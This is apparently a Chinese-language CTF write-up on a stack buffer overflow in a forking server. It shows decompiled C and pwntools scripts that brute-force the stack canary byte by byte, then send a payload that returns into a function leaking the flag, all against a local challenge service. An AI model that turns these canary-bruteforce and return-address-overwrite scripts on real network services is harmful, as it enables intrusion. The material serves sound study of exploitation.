


# Canary的碎碎念
#0blog




```c
signed __int64 sub_400BE9()
{
  signed __int64 result; // rax
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("csfd = %d\n", (unsigned int)fd);
  bzero(&s, 0x64uLL);
  if ( (unsigned int)recv(fd, &s, 0x400uLL, 0) == -1 )
  {
    perror("recv");
    result = 0xFFFFFFFFLL;
  }
  else
  {
    printf("Message come: %s", &s);
    fflush(stdout);
    result = 0LL;
  }
  return result;
}
```

有个小溢出，看一下缓冲区的首地址位于[rbp-70h]，此时栈上的布局是Canary—RBP—RET。

缓冲区溢出出现在fork出来的线程中，所以就可以通过爆破的手段来得到Canary，然后就可以构造ROP。这道题开始时已经读取了flag文件`read(fd, &unk_602160, 0x64uLL);`，而且还有一个send函数可以发送flag。

```c
ssize_t sub_400BC6()
{
  return send(fd, &unk_602160, 0x64uLL, 0);
}
```

那就简单多了，所以这题的考点还是爆破Canary。Payload就是：`Padding+Canary+0xDEADBEEF+p64(0x400BC6)`。

那么问题来了，如何爆破Canary，最低位的byte一定是`\x00`，好，可以写爆破脚本了。

```python
from pwn import *
def crack_canary():
    canary = "\x00"
    while True:
        if len(canary) == 8:
            break
        for item in range(0xff):
            canary_tmp = canary + chr(item)
            try:
                r = remote('127.0.0.1',5555)
                r.recvuntil("Welcome!\n")
                payload = "A"*(0x70-8)
                payload += canary_tmp
                r.send(payload)
                data = r.recv(100,timeout=1)
                if "Message received!" in data:
                    canary += chr(item)
                    log.info("get:{0}".format(hex(item)))
                    break
                r.close()
            except:
                continue
    log.info("[*] canary:{0}".format(hex(u64(canary))))
    return canary
```




拿到Canary后就可以读flag了。
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

def main():
    canary = 0x9f6b51e88c534100
    payload = "a" *(0x70-0x8) + p64(canary) + "aaaaaaaa"+p64(0x0000000000400BC6)
    r = remote('127.0.0.1', 5555)
    r.recvuntil("Welcome!\n")
    r.send(payload)
    print r.recvline(1024,timeout=0.5)
    r.close()
if __name__ == '__main__':
    main()
```